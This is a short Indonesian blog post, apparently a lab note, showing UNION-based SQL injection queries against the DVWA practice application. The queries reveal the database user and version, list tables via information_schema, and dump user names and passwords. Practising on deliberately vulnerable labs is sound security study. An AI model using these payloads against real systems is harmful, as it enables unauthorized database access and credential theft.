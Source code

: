 ```yaml
---
layout: post
title: "(a chunk) Injeksi SQL - dvwa"
date: 2019-02-28 05:22:15 +0000
categories: Technology
comments: false
---
```

- bisa melihat user yang ada akses database:

```sql
select first_name, last_name from users where user_id = '%' or 0=0 union select null, user() #';
```

- bisa lihat versi dari database:

```sql
select first_name, last_name from users where user_id = '%' or 0=0 union select null, version() #'
```
- Melihat informassi table2 yang ada dalam skema db kita

```sql
select first_name, last_name from users where user_id = '%' and 1=0 union select null, table_name from information_schema.tables  #';
```
- Untuk mengecek apakah ada table user di salah satu db, masukkan perintah:

{% highlight sql %}
select first_name, last_name from users where user_id = '%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#';

select first_name, last_name from users where user_id = '%' and 1=0 union select null, concat(first_name, 0x0a, last_name, 0x0a, user, 0x0a, password) from users #';

select first_name, last_name from users where user_id = '%' and 1=0 union select null, concat(first_name, 0x0a, last_name, 0x0a, user, 0x0a, password) from users #';

{% endhighlight %}
